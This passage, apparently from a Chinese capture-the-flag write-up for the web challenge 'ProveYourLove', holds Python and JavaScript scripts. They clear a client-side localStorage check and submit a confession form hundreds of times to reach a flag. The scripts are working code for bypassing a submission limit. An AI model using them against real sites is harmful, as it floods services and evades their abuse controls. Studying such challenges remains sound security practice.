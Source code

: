 ```python title="ProveYourLove.py"
                "message": f"This is confession number {i + 1}",
                "anonymous": "false",
            }

            try:
                await session.options(f"{BASE_URL}/questionnaire")
                async with session.post(
                    f"{BASE_URL}/questionnaire", json=form_data
                ) as response:
                    result = await response.json()
                    if result["success"]:
                        print(f"Form {i + 1} submitted successfully")
                        async with session.get(
                            f"{BASE_URL}/confession_count"
                        ) as count_response:
                            data = await count_response.json()
                        print(f"Count: {data['count']}")
                        print(f"Flag: {data['flag']}")
                        print(f"Qixi_flag: {data['Qixi_flag']}")
                        print("-------------------")
                    else:
                        print(f"Form {i + 1} submission failed")

            except Exception as error:
                print(f"Error submitting form {i + 1}:", str(error))
            await asyncio.sleep(0.01)

asyncio.run(submit_forms(302))

```

因为 sleep 设置的很短，很快就[有了 flag](attachments/WEB-8.png)；在 console 中使用 js 脚本也是可以的：

```javascript title="ProveYourLove.js"
async function submitForms(count) {
    for (let i = 0; i < count; i++) {
        // 重置localStorage
        localStorage.removeItem('confessionSubmitted');

        // 准备表单数据
        const formData = {
            nickname: `User${i}`,
            user_gender: 'other',
            target: `Target${i}`,
            target_gender: 'other',
            message: `This is confession number ${i + 1}`,
            anonymous: 'false'
        };

        try {
            // 发送OPTIONS请求
            await fetch('/questionnaire', { method: 'OPTIONS' });

            // 提交表单
            const response = await fetch('/questionnaire', {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify(formData)
            });

            const result = await response.json();

            if (result.success) {
                console.log(`Form ${i + 1} submitted successfully`);
```